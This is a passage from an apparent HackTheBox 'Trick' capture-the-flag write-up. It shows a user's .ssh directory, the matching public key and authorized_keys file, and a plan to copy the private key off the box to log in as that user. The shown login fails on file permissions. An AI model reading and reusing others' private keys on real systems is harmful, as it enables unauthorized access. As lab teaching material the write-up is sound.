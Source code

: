

#### SSH

There's also a SSH key pair in michael's `.ssh` directory:



    michael@trick:~/.ssh$ ls
    authorized_keys  id_rsa  id_rsa.pub



`id_rsa` is the private key, and `id_rsa.pub` is the public key. The
`authorized_keys` file is also important. This is the default file that
`sshd` (the SSH server) looks at for a list of public keys that can
authenticate as michael.

The `id_rsa.pub` is in `authorized_keys`:



    michael@trick:~/.ssh$ cat id_rsa.pub 
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAj1gsVEpPokVNKo+3b/7uaCDkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizEhkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1LjnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryx michael@trick
    michael@trick:~/.ssh$ cat authorized_keys 
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAj1gsVEpPokVNKo+3b/7uaCDkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizEhkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1LjnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryx michael@trick



With access to the private key with the same name, I can use this to
authenticate to Trick as michael.

I'll copy the contents of the private key and paste them into a file on
my system. Now I can give `ssh` the `-i` flag to point to that file when
authenticating:



    oxdf@hacky$ ssh -i ~/keys/trick-michael michael@trick.htb
    Warning: Permanently added 'trick.htb' (ECDSA) to the list of known hosts.
    @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
    @         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
    @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
    Permissions 0664 for '/home/oxdf/keys/trick-michael' are too open.
    It is required that your private key files are NOT accessible by others.
    This private key will be ignored.
    Load key "/home/oxdf/keys/trick-michael": bad permissions
    michael@trick.htb's password:



It fails here because the pemissions on the private key are too open
(664, which means everyone on my system can read it). I'll fix that, and
then it works:

